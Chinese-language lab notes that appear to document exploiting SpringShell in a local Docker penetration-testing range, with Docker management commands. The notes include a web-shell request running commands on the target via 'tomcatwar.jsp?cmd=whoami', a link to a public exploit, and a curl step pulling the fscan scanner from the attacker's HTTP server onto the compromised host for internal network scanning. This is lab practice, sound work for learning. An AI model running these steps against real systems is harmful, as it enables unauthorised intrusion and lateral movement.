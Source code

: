 查看网络情况
```sh
docker network ls
```

kali linux 本地
```
http://127.0.0.1:58080
```

查看容器情况
```sh
sudo docker ps
```

内部两台机器无法访问，要用这条命令开启交互。
```sh
sudo docker exec -it <Container ID> /bin/bash
```

关掉 docker。
```sh
sudo docker-compose down
```

```sh
sudo docker system prune -f
```
## 本地复现

Exp:
https://github.com/TheGejr/SpringShell

直接用 exp 打。
http://192.168.84.128:58080/tomcatwar.jsp?pwd=j&cmd=whoami

`ip a` 查看网卡。
```
127.0.0.1/8
172.18.0.2/16
172.19.0.3/16
```

有两个网段，我们应该需要 `yunwei` 这个网段。`dmz` 只连一台机器，`yunwei` 连两台机器。用 `fscan` 扫描，根据区别应该能识别出 `yunwei` 网段。

`fscan`:
https://github.com/shadow1ng/fscan/releases/tag/1.8.4

本地
```
192.168.216.1
```
开好 python 内置的 http server。

使用 `curl` 下载 `fscan`
```sh
curl http://192.168.216.1:8000/fscan -o fs
```
